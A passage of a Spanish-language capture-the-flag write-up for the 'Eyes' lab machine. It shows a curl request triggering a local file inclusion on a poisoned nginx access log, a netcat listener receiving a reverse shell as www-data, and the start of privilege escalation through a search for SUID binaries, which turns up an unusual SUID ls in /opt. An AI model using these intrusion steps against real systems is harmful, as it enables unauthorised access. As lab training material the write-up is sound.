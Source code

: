 A simple vista no ha pasado nada, de hecho podemos ver la petición que hemos hecho anteriormente. Enviemos de nuevo una petición, en este caso no hará falta que la infectemos:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Eyes]
└─# curl http://192.168.1.113/?fil3=/var/log/nginx/access.log
```

Veremos que al instante recibimos una **`Shell`** desde la máquina víctima:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Eyes]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.1.108] from (UNKNOWN) [192.168.1.113] 59882
www-data@eyes:~/html$
```

¡Estupendo! Ya estamos en la máquina víctima como **`www-data`**.

### Subida de privilegios #1
Ahora que ya estamos en la máquina tenemos que coneguir el **`control total`** de la misma, para ello necesitaremos pasar por un usuario antes de ir a por **`root`**.

Para investigar un poco el sistema utilicé el comando **`find`** para encontrar binarios con permisos **`SUID`**:

```sh
www-data@eyes:~$ find / -perm -u=s -type f 2>/dev/null
/opt/ls
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/chsh
```

Entre todos estos binarios vemos uno que no es nada común, en este caso estamos hablando del binario **`ls`**, localizado en el directorio **`/opt`**{: .filepath }. Vamos a ver qué nos encontramos en el directorio:

```sh
www-data@eyes:/opt$ ls -la
total 36
drwxr-xr-x  2 root   root    4096 Apr  4  2021 .
drwxr-xr-x 18 root   root    4096 Apr  4  2021 ..
-rwsr-sr-x  1 root   root   16864 Apr  4  2021 ls
-rw-r--r--  1 root   root     349 Apr  4  2021 ls.c
-rw-r--r--  1 monica monica    41 Apr  4  2021 note.txt
```
